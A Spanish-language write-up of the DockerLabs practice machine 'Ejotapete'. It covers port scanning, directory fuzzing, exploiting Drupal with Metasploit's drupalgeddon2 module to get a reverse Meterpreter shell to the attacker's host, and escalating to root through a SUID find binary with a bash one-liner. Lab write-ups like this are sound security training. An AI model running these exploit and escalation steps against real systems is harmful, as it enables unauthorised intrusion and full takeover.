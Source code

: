 # 🖥️ Writeup - Ejotapete 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip ejotapete.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ejotapete.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 21:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Solo el puerto `80` está abierto, y al acceder nos encontramos con un `403 Forbidden`.

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

# GOBUSTER

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
Progress: 155619 / 1543906 (10.08%)
```

Encontramos un directorio `/drupal`, lo que indica que podría tratarse de un CMS.

Si navegamos dentro del directorio, confirmamos que efectivamente se trata de un `CMS Drupal`. Este tiene múltiples vulnerabilidades conocidas, así que utilizamos `Metasploit` para intentar explotar alguna de ellas.

# METASPLOIT

```bash
msfconsole
```

```js
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS 172.17.0.2
set TARGETURI /drupal
run
```

Info:
```
[*] Started reverse TCP handler on 10.0.4.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (10.0.4.12:4444 -> 172.17.0.2:53510) at 2025-09-11 21:31:31 +0200

meterpreter > getuid
Server username: www-data

```

Obtenemos una sesión meterpreter con el usuario `www-data`.

# ESCALADA DE PRIVILEGIOS

Para escalar privilegios, transferimos el script `linpeas.sh` desde nuestra máquina atacante al directorio `/tmp` de la víctima.

```js
cd tmp
upload /home/trihack/Downloads/linpeas.sh
```

Info:
```
[*] Uploading  : /home/trihack/Downloads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 932.07 KiB (0.0%): /home/trihack/Downloads/linpeas.sh -> linpeas.sh
[*] Completed  : /home/trihack/Downloads/linpeas.sh -> linpeas.sh
```

A continuación lo ejecutamos desde una shell de `bash`.

```js
shell
/bin/bash -i
chmod +x linpeas.sh
./linpeas.sh
```

Info:

![alt text](../images/linpeas.png)


En los binarios con permisos `SUID`, identificamos que podemos ejecutar el binario `find` con privilegios de `root`.

Aprovechamos esto para obtener una `shell` de `root` de la siguiente manera:

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

Info:
```
bash-4.4# whoami
root
bash-4.4# 
```
Ya somos root!